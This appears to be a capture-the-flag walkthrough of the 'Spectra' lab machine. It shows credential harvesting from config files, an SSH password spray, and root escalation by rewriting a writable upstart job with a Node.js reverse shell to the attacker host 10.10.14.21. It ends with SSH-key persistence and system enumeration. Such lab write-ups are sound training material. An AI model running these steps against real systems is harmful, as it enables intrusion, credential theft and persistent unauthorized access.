/home/chronos/TLSDeprecationConfig:
total 0

/home/chronos/ZxcvbnData:
total 0

/home/chronos/user:
total 4
-rw-r--r-- 1 chronos chronos 172 May 14 22:23 logout-times

/home/katie:
total 8
drwxr-xr-x 2 katie katie 4096 Jan 15 15:55 log
-r-------- 1 katie katie   33 Feb  2 15:57 user.txt

/home/katie/log:
total 0

/home/nginx:
total 4
drwxr-xr-x 2 nginx nginx 4096 Jan 15 15:55 log

/home/nginx/log:
total 0

/home/user:
total 8
drwx------ 35 chronos chronos-access 4096 Feb  2 14:23 19a8bec4ee5f0514f26a0cd2977e1cbbe63c6481
drwx------  2 chronos chronos-access 4096 Jul 20  2020 610876cf18f712f17912afa21776cff95f88938b
$
```

Networking

```
$ netstat -tlpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

Processes

```
$ ps aux
...<SNIP>...
root        779  0.0  0.0   7608  2864 ?        S    May14   0:02 /bin/bash /root/script.sh
```

`/opt`

```
nginx@spectra /opt $ ls -l
total 36
drwxr-xr-x 2 root root 4096 Jun 28  2020 VirtualBox
-rw-r--r-- 1 root root  978 Feb  3 16:02 autologin.conf.orig
drwxr-xr-x 2 root root 4096 Jan 15 15:53 broadcom
drwxr-xr-x 2 root root 4096 Jan 15 15:54 displaylink
drwxr-xr-x 2 root root 4096 Jan 15 15:53 eeti
drwxr-xr-x 5 root root 4096 Jan 15 15:55 google
drwxr-xr-x 6 root root 4096 Feb  2 15:15 neverware
drwxr-xr-x 5 root root 4096 Jan 15 15:54 tpm1
drwxr-xr-x 5 root root 4096 Jan 15 15:54 tpm2
```


```
nginx@spectra /opt $ cat autologin.conf.orig
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
```


```
nginx@spectra /opt $ ls -l /mnt/stateful_partition/etc/
total 8
-rw------- 1 root root   43 Feb  3 16:39 devmode.passwd
drwxr-xr-x 2 root root 4096 Jun 28  2020 ssh
nginx@spectra /opt $ ls -l /etc/autologin/             
total 4
-rw-r--r-- 1 root root 19 Feb  3 16:43 passwd
nginx@spectra /opt $ cat /etc/autologin/passwd 
SummerHereWeCome!!
nginx@spectra /opt $ 
```


### Web Files

`/usr/local/share/nginx/html/main`

```
$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'dev' );

/** MySQL database password */
define( 'DB_PASSWORD', 'development01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define('FS_METHOD', 'direct');

define('FTP_BASE', '/usr/local/share/nginx/html/main/');

define('FTP_CONTENT_DIR', '/usr/local/share/nginx/html/main/wp-content/');

define('FTP_PLUGIN_DIR ', '/usr/local/share/nginx/html/main/wp-content/plugins/');

define( 'WP_HOME', 'http://spectra.htb/main' );
define( 'WP_SITEURL', 'http://spectra.htb/main' );

define('WP_HTTP_BLOCK_EXTERNAL', true);
define('AUTOMATIC_UPDATER_DISABLED', true);

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```


### MySQL

Credentials:

- db: dev
- user: devtest
- pass: devteam01

```
$ mysql dev -u devtest -p
Enter password: devteam01
ERROR 1045 (28000): Access denied for user 'devtest'@'localhost' (using password: YES)
```

Credentials:

- db: dev
- user: dev
- pass: development01

```
$ mysql dev -u dev -pdevelopment01 -e 'show databases;'
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
dev
$ mysql dev -u dev -pdevelopment01 -e 'show tables from dev;'
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_dev
wp_commentmeta
wp_comments
wp_links
wp_options
wp_postmeta
wp_posts
wp_term_relationships
wp_term_taxonomy
wp_termmeta
wp_terms
wp_usermeta
wp_users
$ mysql dev -u dev -pdevelopment01 -e 'describe dev.wp_users'
mysql: [Warning] Using a password on the command line interface can be insecure.
Field   Type    Null    Key     Default Extra
ID      bigint(20) unsigned     NO      PRI     NULL    auto_increment
user_login      varchar(60)     NO      MUL
user_pass       varchar(255)    NO
user_nicename   varchar(50)     NO      MUL
user_email      varchar(100)    NO      MUL
user_url        varchar(100)    NO
user_registered datetime        NO              0000-00-00 00:00:00
user_activation_key     varchar(255)    NO
user_status     int(11) NO              0
display_name    varchar(250)    NO
$ $ mysql dev -u dev -pdevelopment01 -e 'select user_login,user_pass from dev.wp_users;'
mysql: [Warning] Using a password on the command line interface can be insecure.
user_login      user_pass
administrator   $P$BNlisfpKSFVhrcykt03B/pidcUfNmL0
```


### Password Spray

```shell
→ root@kali «spectra» «10.10.14.21» 
$ crackmapexec ssh 10.10.10.229 -u users.list -p passwords.list
SSH         10.10.10.229    22     10.10.10.229     [*] SSH-2.0-OpenSSH_8.1
SSH         10.10.10.229    22     10.10.10.229     [-] chronos:devteam01 Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']
SSH         10.10.10.229    22     10.10.10.229     [-] chronos:development01 Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']
SSH         10.10.10.229    22     10.10.10.229     [-] chronos:SummerHereWeCome!! Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']
SSH         10.10.10.229    22     10.10.10.229     [-] katie:devteam01 Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']
SSH         10.10.10.229    22     10.10.10.229     [-] katie:development01 Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']
SSH         10.10.10.229    22     10.10.10.229     [+] katie:SummerHereWeCome!!
```

## SSH Access - katie

### Re-enumeration

katie's home dir

```text
→ root@kali «spectra» «10.10.14.21» 
$ ssh katie@10.10.10.229
Password: 
katie@spectra ~ $ id 
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
katie@spectra ~ $ ls -la
total 36
drwxr-xr-x 5 katie katie 4096 May 15 12:17 .
drwxr-xr-x 8 root  root  4096 Feb  2 15:55 ..
lrwxrwxrwx 1 root  root     9 Feb  2 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 katie katie  127 Dec 22 05:46 .bash_logout
-rw-r--r-- 1 katie katie  204 Dec 22 05:46 .bash_profile
-rw-r--r-- 1 katie katie  551 Dec 22 05:46 .bashrc
drwx------ 2 katie katie 4096 May 15 12:17 .gnupg
drwx------ 3 katie katie 4096 Jan 15 15:55 .pki
drwxr-xr-x 2 katie katie 4096 Jan 15 15:55 log
-r-------- 1 katie katie   33 Feb  2 15:57 user.txt
```

sudo privileges, 

```
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

look for things owned by the `developers` group.

```
katie@spectra ~ $ find / -type f -group developers 2>/dev/null -ls
    32121      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test6.conf
    32123      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test7.conf
    32109      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test3.conf
    32112      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test4.conf
    32103      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test.conf
    32126      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test8.conf
    32128      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test9.conf
    32106      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test10.conf
    32108      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test2.conf
    32120      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test5.conf
    32105      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test1.conf
    23763      4 -rwxrwxr-x   1 root     developers      251 Jun 29  2020 /srv/nodetest.js
katie@spectra ~ $ cat /etc/init/test.conf 
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
katie@spectra ~ $ ls -l /usr/local/share/nodebrew/node/v8.9.4/bin/node
-rwxr-xr-x 1 chronos chronos 35200855 Jan  2  2018 /usr/local/share/nodebrew/node/v8.9.4/bin/node
```

## Exploiting sudo initcl

References: https://gtfobins.github.io/gtfobins/node/#sudo

Exploit conf.

```
→ root@kali «exploits» «10.10.14.21»
$ cat exploit.conf
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    export RHOST=10.10.14.21
    export RPORT=9001
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node -e 'sh = child_process.spawn("/bin/sh"); net.connect(process.env.RPORT, process.env.RHOST, function () {
    this.pipe(sh.stdin);
    sh.stdout.pipe(this);
    sh.stderr.pipe(this);
    })'
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
```

Transfer conf.

```
→ root@kali «exploits» «10.10.14.21»
$ scp exploit.conf katie@10.10.10.229:/dev/shm
Password:
bash: warning: /home/katie/.bashrc: warning: script from noexec mount; see https://chromium.googlesource.com/chromiumos/docs/+/master/security/noexec_shell_scripts.md
exploit.conf                               100%  775    13.1KB/s   00:00
```

Exploit

```
katie@spectra /etc/init $ sudo /sbin/initctl stop test5 2>/dev/null; cat /dev/shm/exploit.conf > test5.conf && sudo /sbin/initctl start test5
```

```
→ root@kali «exploits» «10.10.14.21»
$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.229] 35486
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
export TERM=xterm
export PATH=/bin:/usr/bin:$PATH
python -c 'import pty;pty.spawn("/bin/bash")'
spectra / # ^Z
[1]  + 3229 suspended  nc -nvlp 9001
→ root@kali «exploits» «10.10.14.21»
$ stty raw -echo; fg
[1]  + 3229 continued  nc -nvlp 9001

spectra / # cd /root
spectra /root # ls -la
total 44
drwx------  6 root  root       4096 Feb 11 10:27 .
drwxr-xr-x 22 root  root       4096 Feb  2 14:52 ..
lrwxrwxrwx  1 root  root          9 Feb  2 15:55 .bash_history -> /dev/null
-rw-r--r--  1 root  root          0 Jan 15 15:58 .leave_core
drwx------  2 root  root       4096 Feb  3 03:31 .ssh
drwx------  2 root  root       4096 Feb  2 14:46 .trousers
-rw-------  1 root  root        840 Feb 11 10:25 .viminfo
drwxr-xr-x  5 nginx nginx      4096 Oct 27  2020 main
-rwxrwxr-x  1 root  developers  251 Jun 29  2020 nodetest.js
-r--------  1 root  root         33 Jun 29  2020 root.txt
-rw-r-----  1 root  root       1243 Feb 11 10:25 script.sh
drwxrws---  2 root  root       4096 Oct 27  2020 startup
-rw-rw----  1 root  developers  478 Jun 29  2020 test.conf
spectra /root # cat root.txt
d44519713b889d5e1f9e536d0c6df2fc
```




For persistent

```
spectra /dev/shm # echo 'ssh-ed25519 AAAAC3NzaC1l....s1g+moK' > /root/.ssh/authorized_keys
```

```
→ root@kali «loot» «10.10.14.21»
$ ssh root@10.10.10.229
spectra ~ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),26(tape),27(video),207(tss),208(pkcs11),219(wpa),253(preserve),1001(chronos-access)
spectra ~ # ls -l
total 24
drwxr-xr-x 5 nginx nginx      4096 Oct 27  2020 main
-rwxrwxr-x 1 root  developers  251 Jun 29  2020 nodetest.js
-r-------- 1 root  root         33 Jun 29  2020 root.txt
-rw-r----- 1 root  root       1243 Feb 11 10:25 script.sh
drwxrws--- 2 root  root       4096 Oct 27  2020 startup
-rw-rw---- 1 root  developers  478 Jun 29  2020 test.conf
spectra ~ #
```


# 30 - Post Exploits

```
spectra /root # uname -a
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7302P 16-Core Processor AuthenticAMD GNU/Linux
spectra /root # cat /etc/*-release
BUILD_NUMBER=22
CHROMEOVER_BUILD_COMMIT=829e617e7b8467c355f9bd61f87835bfeb0da547
CHROMIUMOS_MANIFEST_COMMIT=38c4f6ca60a47f7fabf0fcd5d6feabf349e3f002
CHROMIUM_BROWSER_COMMIT=ef24d0b3349c2324d18a3f32bc35d14e796aeddc
PIPELINE_TAG=prod
USE_FLAGS=-cros-debug beerover virtualbox
GOOGLE_RELEASE=87.3.41
CHROMEOS_RELEASE_BRANCH_NUMBER=85
CHROMEOS_RELEASE_TRACK=stable-channel
CHROMEOS_RELEASE_KEYSET=devkeys
CHROMEOS_RELEASE_NAME=Chromium OS
CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
CHROMEOS_RELEASE_BOARD=chromeover64
CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
CHROMEOS_RELEASE_BUILD_NUMBER=13505
CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
CHROMEOS_RELEASE_CHROME_MILESTONE=87
CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_RELEASE_BUILD_TYPE=Developer Build - neverware
CHROMEOS_RELEASE_VERSION=87.3.41
CHROMEOS_RELEASE_DESCRIPTION=87.3.41 (Developer Build - neverware) stable-channel chromeover64
spectra /root # netstat -tlupn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      3711/mysqld
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      939/nginx: master p
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      823/sshd
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN      1219/php-fpm: maste
tcp6       0      0 :::22                   :::*                    LISTEN      823/sshd
udp        0      0 0.0.0.0:68              0.0.0.0:*                           2587/dhcpcd
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           2022/avahi-daemon:
spectra /root # ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.229  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::e003:d8fb:d4c2:4573  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:779f  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:779f  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:77:9f  txqueuelen 1000  (Ethernet)
        RX packets 784892  bytes 132015748 (125.9 MiB)
        RX errors 0  dropped 370  overruns 0  frame 0
        TX packets 769560  bytes 248733721 (237.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 931304  bytes 140654198 (134.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 931304  bytes 140654198 (134.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

Processes

```
spectra /root # ps aux --forest
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root          2  0.0  0.0      0     0 ?        S    May14   0:00 [kthreadd]
root          3  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [rcu_gp]
root          4  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [rcu_par_gp]
root          6  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kworker/0:0H-kblockd]
root          8  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [mm_percpu_wq]
root          9  0.0  0.0      0     0 ?        S    May14   0:00  \_ [ksoftirqd/0]
root         10  0.0  0.0      0     0 ?        I    May14   0:08  \_ [rcu_sched]
root         11  0.0  0.0      0     0 ?        S    May14   0:00  \_ [migration/0]
root         13  0.0  0.0      0     0 ?        S    May14   0:00  \_ [cpuhp/0]
root         14  0.0  0.0      0     0 ?        S    May14   0:00  \_ [cpuhp/1]
root         15  0.0  0.0      0     0 ?        S    May14   0:00  \_ [migration/1]
root         16  0.0  0.0      0     0 ?        S    May14   0:00  \_ [ksoftirqd/1]
root         18  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kworker/1:0H-kblockd]
root         19  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kworker/1:1H]
root         20  0.0  0.0      0     0 ?        S    May14   0:00  \_ [cpuhp/2]
root         21  0.0  0.0      0     0 ?        S    May14   0:00  \_ [migration/2]
root         22  0.0  0.0      0     0 ?        S    May14   0:00  \_ [ksoftirqd/2]
root         24  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kworker/2:0H-kblockd]
root         25  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kworker/2:1H]
root         26  0.0  0.0      0     0 ?        S    May14   0:00  \_ [cpuhp/3]
root         27  0.0  0.0      0     0 ?        S    May14   0:00  \_ [migration/3]
root         28  0.0  0.0      0     0 ?        S    May14   0:00  \_ [ksoftirqd/3]
root         30  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kworker/3:0H-events_highpri]
root         31  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kworker/3:1H-kblockd]
root         32  0.0  0.0      0     0 ?        S    May14   0:00  \_ [kdevtmpfs]
root         33  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [netns]
root         35  0.0  0.0      0     0 ?        S    May14   0:00  \_ [khungtaskd]
root         36  0.0  0.0      0     0 ?        S    May14   0:00  \_ [oom_reaper]
root         37  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [writeback]
root         38  0.0  0.0      0     0 ?        S    May14   0:00  \_ [kcompactd0]
root         39  0.0  0.0      0     0 ?        SN   May14   0:00  \_ [khugepaged]
root         62  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kintegrityd]
root         63  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kblockd]
root         64  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [blkcg_punt_bio]
root         68  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [tpm_dev_wq]
root         69  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [ata_sff]
root         70  0.0  0.0      0     0 ?        S    May14   0:00  \_ [watchdogd]
root         71  0.0  0.0      0     0 ?        S    May14   0:02  \_ [kswapd0]
root         72  0.0  0.0      0     0 ?        S    May14   0:00  \_ [ecryptfs-kthrea]
root         73  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kthrotld]
root         74  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/24-pciehp]
root         75  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/25-pciehp]
root         76  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/26-pciehp]
root         77  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/27-pciehp]
root         78  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/28-pciehp]
root         79  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/29-pciehp]
root         80  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/30-pciehp]
root         81  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/31-pciehp]
root         82  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/32-pciehp]
root         83  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/33-pciehp]
root         84  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/34-pciehp]
root         85  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/35-pciehp]
root         86  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/36-pciehp]
root         87  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/37-pciehp]
root         88  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/38-pciehp]
root         89  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/39-pciehp]
root         90  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/40-pciehp]
root         91  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/41-pciehp]
root         92  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/42-pciehp]
root         93  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/43-pciehp]
root         94  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/44-pciehp]
root         95  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/45-pciehp]
root         96  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/46-pciehp]
root         97  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/47-pciehp]
root         98  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/48-pciehp]
root         99  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/49-pciehp]
root        100  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/50-pciehp]
root        101  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/51-pciehp]
root        102  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/52-pciehp]
root        103  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/53-pciehp]
root        104  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/54-pciehp]
root        105  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/55-pciehp]
root        107  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [acpi_thermal_pm]
root        109  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [drbd-reissue]
root        110  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [nvme-wq]
root        111  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [nvme-reset-wq]
root        112  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [nvme-delete-wq]
root        113  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_0]
root        114  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_0]
root        115  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_1]
root        116  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_1]
root        117  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_2]
root        118  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_2]
root        119  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_3]
root        120  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_3]
root        121  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_4]
root        122  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_4]
root        123  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_5]
root        124  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_5]
root        125  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_6]
root        126  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_6]
root        127  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_7]
root        128  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_7]
root        129  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_8]
root        130  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_8]
root        131  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_9]
root        132  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_9]
root        133  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_10]
root        134  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_10]
root        135  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_11]
root        136  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_11]
root        137  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_12]
root        138  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_12]
root        139  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_13]
root        140  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_13]
root        141  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_14]
root        142  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_14]
root        143  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_15]
root        144  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_15]
root        145  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_16]
root        146  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_16]
root        147  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_17]
root        148  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_17]
root        149  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_18]
root        150  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_18]
root        151  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_19]
root        152  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_19]
root        153  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_20]
root        154  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_20]
root        155  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_21]
root        156  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_21]
root        157  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_22]
root        158  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_22]
root        159  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_23]
root        160  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_23]
root        161  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_24]
root        162  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_24]
root        163  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_25]
